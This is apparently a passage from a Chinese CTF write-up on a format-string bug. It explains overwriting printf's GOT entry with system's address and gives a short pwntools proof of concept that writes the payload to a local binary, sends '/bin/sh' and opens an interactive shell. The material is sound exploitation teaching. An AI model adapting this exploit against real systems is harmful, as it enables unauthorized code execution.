 可以看到分析并没有给出漏洞函数，但是可以修改 printf 函数自己的 GOT 表地址为`system`地址，然后就可以再次输入`/bin/sh`字符串，就获取了shell。给出poc

```python
from libformatstr import *
from pwn import *

printf_got=0x0804B014
system_plt=0x08048440
r = process('pwn')
buf = fmtstr_payload(6, {printf_got:system_plt})
print buf
print "="*80
r.sendline(buf)
r.sendline("/bin/sh")
r.interactive()
```

执行结果
![](./images/1626765772076-16.png)
